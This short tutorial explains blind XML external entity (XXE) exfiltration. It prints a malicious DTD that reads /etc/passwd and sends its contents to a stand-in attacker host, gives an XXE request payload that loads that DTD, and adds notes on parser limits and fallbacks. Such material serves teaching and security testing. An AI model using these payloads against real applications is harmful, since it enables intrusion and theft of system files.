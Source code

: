 Exfiltrating sensitive data in blind XXE is hard but not possible. This can be achieved by hosting a malicious DTD on a system that an attacker controls and then invoking it within the XXE payload. An example of a malicious DTD to exfiltrate contents of `/etc/passwd`:
```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

The attacker must then host the malicious DTD on a system they control. For example, the attacker might serve it at the following URL: `https://web-attacker.com/malicious.dtd`.

Finally, the attacker must submit the following XXE payload to the vulnerable application:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>299</productId></stockCheck>
```
## Note
This technique might not work with some file contents, including the newline characters. This is because some XML parsers fetch the URL defined in the external entity using an API that validates the whitelisted characters against the URL string. In this situation, it might possible to use the FTP protocol instead. Sometimes, it will not be possible to exfiltrate data containing newline characters, and so a file such as `/etc/hostname` can be targeted instead.